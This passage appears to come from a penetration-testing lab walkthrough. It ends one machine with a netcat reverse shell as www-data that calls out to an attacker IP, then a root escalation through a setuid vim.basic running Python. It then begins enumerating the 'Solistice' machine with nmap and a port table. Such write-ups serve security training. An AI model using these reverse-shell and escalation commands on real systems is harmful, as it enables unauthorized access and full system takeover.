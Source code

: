 The shell payload that worked was `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1|nc 192.168.49.172 80 > /tmp/f` with the netcat instance listening on port 80. This gave a shell as `www-data`.

## Privilege Escalation

Looking at the setuid binaries in the system, an interesting one is `vim.basic` because vim allows executing shell commands.

Therefore, a shell can be lanuched by using `vim.basic -c ':! bash'` command. However, this does not set the privileges. The uid is still that of `www-data`.

This can be done by using python since it is there on the system, otherwise a C code would have to be compiled and executed. The python command can be executed as follows &rarr;

```bash
vim.basic -c ':py3 import os; os.setuid(0); os.system("/bin/bash")'
```

This gives the root shell and thus the root flag.

---

# Solistice

## Enumeration

Machine IP &rarr; `192.168.124.72`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.124.72`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                                     |
| -------- | ----------- | ------------------------------------------------------------------------------ |
| 21       | FTP         | pyftpdlib 1.5.6                                                                |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                 |
| 25       | SMTP        | Exim smtpd                                                                     |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                                                 |
| 2121     | FTP         | pyftpdlib 1.5.6 &rarr; *Anonymous Login Allowed*                                    |
| 3128     | HTTP Proxy  | Squid http proxy 4.6                                                           |
| 8593     | HTTP        | PHP cli server 5.5 or later (PHP 7.3.14-1) &rarr; *PHPSESSID HTTPOnly flag not set* |
| 54787    | HTTP        | PHP cli server 5.5 or later (PHP 7.3.14-1)                                     |
| 62524    | \-          | \-                                                                             |

### Web Scan
